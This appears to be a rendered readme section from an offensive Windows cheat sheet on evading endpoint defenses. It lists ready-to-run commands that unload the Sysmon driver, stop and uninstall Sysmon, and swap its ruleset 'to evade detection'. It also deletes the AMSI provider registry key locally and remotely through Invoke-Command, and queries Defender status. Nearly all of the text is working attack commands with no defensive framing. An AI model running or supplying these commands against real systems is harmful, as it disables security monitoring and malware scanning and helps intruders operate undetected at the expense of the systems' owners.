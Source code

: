 ## 04 - Sysinternals

### 4.1 - Sysmon

#### 4.1.1 - Disable

Get driver for Sysmon and disable it.

```
C:\> fltmc.exe

C:\> fltmc.exe unload SysmonDrv
```

Disable Sysmon service.

```
C:\> sc.exe stop Sysmon64
```

Change configuration for sysmon to make it useless or reduce the ruleset to evade detection.

```
C:\> Sysmon64.exe -c sysmonconfig-export.xml
```

Change to default settings.

```
C:\> Sysmon64.exe -c --
```

#### 4.1.2 - Uninstall

Note: You must have administrative privileges

```
C:\> Sysmon64.exe -u
```

## 05 - Disable AMSI

### 5.1 - PowerShell

```
PS C:\> Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse -Force }
```

```
PS C:\> Get-WmiObject -Namespace root\microsoft\protectionmanagement -Class msft_mpcomputerstatus

PS C:\> Get-CimInstance -Namespace root\microsoft\protectionmanagement -Class msft_mpcomputerstatus
```
